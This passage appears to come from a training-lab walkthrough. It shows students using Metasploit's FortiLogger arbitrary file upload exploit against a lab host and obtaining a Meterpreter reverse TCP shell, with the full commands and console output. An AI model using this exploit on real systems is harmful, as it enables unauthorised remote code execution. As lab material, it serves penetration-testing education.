 Students then will need to use/select the only available exploit for `FortiLogger`:

Code: shell

```shell
use 0
```

```
msf6 > use 0

[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
```

After using the `show options` command, students will know that they need to set two options, `LHOST` and `RHOSTS` :

Code: shell

```shell
set LHOST tun0
set RHOSTS STMIP
```

```
msf6 exploit(windows/http/fortilogger_arbitrary_fileupload) > set RHOSTS 10.129.173.75

RHOSTS => 10.129.173.75
msf6 exploit(windows/http/fortilogger_arbitrary_fileupload) > set LHOST tun0

LHOST => tun0
```

Students at last will need to launch the exploit using the `exploit` command:

Code: shell

```shell
exploit
```

```
msf6 exploit(windows/http/fortilogger_arbitrary_fileupload) > exploit

[*] Started reverse TCP handler on 10.10.14.49:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. FortiLogger version 4.4.2.2
[+] Generate Payload
[+] Payload has been uploaded
[*] Executing payload...
[*] Sending stage (175174 bytes) to 10.129.173.75
[*] Meterpreter session 1 opened (10.10.14.49:4444 -> 10.129.173.75:49697) at 2022-06-16 04:06:26 +0100

meterpreter >
```

Once students attain a `meterpreter` session, they need to spawn a normal shell and then run the `whoami` command:
